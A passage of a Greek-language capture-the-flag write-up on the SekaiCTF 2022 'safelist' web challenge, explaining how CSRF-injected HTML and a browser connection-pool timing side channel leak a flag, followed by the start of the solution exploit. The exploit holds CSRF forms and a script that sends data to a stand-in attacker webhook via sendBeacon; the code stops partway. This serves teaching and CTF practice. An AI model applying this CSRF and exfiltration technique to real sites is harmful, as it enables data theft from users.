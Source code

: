 Σε αυτή την πρόκληση, ο στόχος είναι να εξάγουμε μια σημαία που θα εμφανιστεί στη διαδικτυακή συνεδρία του bot μέσα σε μια ανάρτηση. Αυτά είναι τα περιουσιακά στοιχεία που έχει ο επιτιθέμενος:

* Το **bot** θα **επισκεφθεί** μια **διεύθυνση URL** που δίνεται από τον επιτιθέμενο
* Ο επιτιθέμενος μπορεί να **εισάγει HTML** στη σελίδα (αλλά όχι JS, χρησιμοποιείται το dompurify) εκμεταλλευόμενος μια **CSRF** κάνοντάς το **bot να δημιουργήσει μια ανάρτηση** με αυτή την HTML.
* Ο επιτιθέμενος μπορεί να εκμεταλλευτεί μια CSRF για να κάνει το **bot** να **διαγράψει** την **πρώτη** **ανάρτηση** μέσα στο διαδίκτυο.
* Επειδή οι **αναρτήσεις** είναι ταξινομημένες **αλφαβητικά**, όταν η **πρώτη ανάρτηση διαγραφεί**, αν το **περιεχόμενο HTML** του επιτιθέμενου είναι **φορτωμένο** σημαίνει ότι ήταν **αλφαβητικά πριν από τη σημαία**.

Επομένως, για να κλέψει τη σημαία, η λύση που προτείνει ο @Strellyc\_ είναι να, **για κάθε χαρακτήρα που θα δοκιμαστεί** να κάνει το bot:

* Δημιουργήσει μια **νέα ανάρτηση** που **ξεκινά** με το γνωστό μέρος της **σημαίας** και αρκετές **φορτώσεις img**.
* **Διαγράψει** την **ανάρτηση** στη θέση **0**.
* Κλείσει 255 υποδοχές.
* Φορτώσει τη σελίδα με τις αναρτήσεις
* Εκτελέσει 5 τυχαία αιτήματα σε μια τοποθεσία (example.com σε αυτή την περίπτωση) και μετρήσει το χρόνο που χρειάζεται.

{% hint style="warning" %}
Αν η **διαγραμμένη** ανάρτηση ήταν η **σημαία**, αυτό σημαίνει ότι όλες οι **εικόνες** που **εισάγονται** στην HTML θα **ανταγωνίζονται** με τα **5 τυχαία αιτήματα** για αυτή τη **μη αποκλεισμένη** υποδοχή. Αυτό σημαίνει ότι ο μετρημένος χρόνος θα είναι μεγαλύτερος από το άλλο σενάριο.

Αν η **διαγραμμένη** ανάρτηση ήταν η **HTML**, τα **5 τυχαία αιτήματα** θα είναι **ταχύτερα** επειδή δεν χρειάζεται να ανταγωνίζονται για αυτή τη υποδοχή με την εισαγόμενη HTML.
{% endhint %}

### Exploit 1

This is the exploit code, taken from [https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html](https://github.com/project-sekai-ctf/sekaictf-2022/blob/main/web/safelist/solution/solve.html):
```html
<!-- Form to inject HTML code in the bots page -->
<form method="POST" action="https://safelist.ctf.sekai.team/create" id="create" target="_blank">
<input type="text" name="text" />
<input type="submit" />
</form>

<!-- Form to delete the first entry -->
<form method="POST" action="https://safelist.ctf.sekai.team/remove" id="remove" target="_blank">
<input type="text" name="index" value="0" />
<input type="submit" />
</form>

<script>
// Attacker listening
const WEBHOOK = "https://WEBHOOK.com/";
// Send data to attacker
const log = (id, data) => {
let payload = JSON.stringify({ known, alphabet, data });
console.log(id, payload);
navigator.sendBeacon(WEBHOOK + "?" + id, payload);
}

// Similar to JQuery
const $ = document.querySelector.bind(document);

// Known part of the flag
const known = "SEKAI{";
let alphabet = "_abcdefghijklmnopqrstuvwxyz}";
```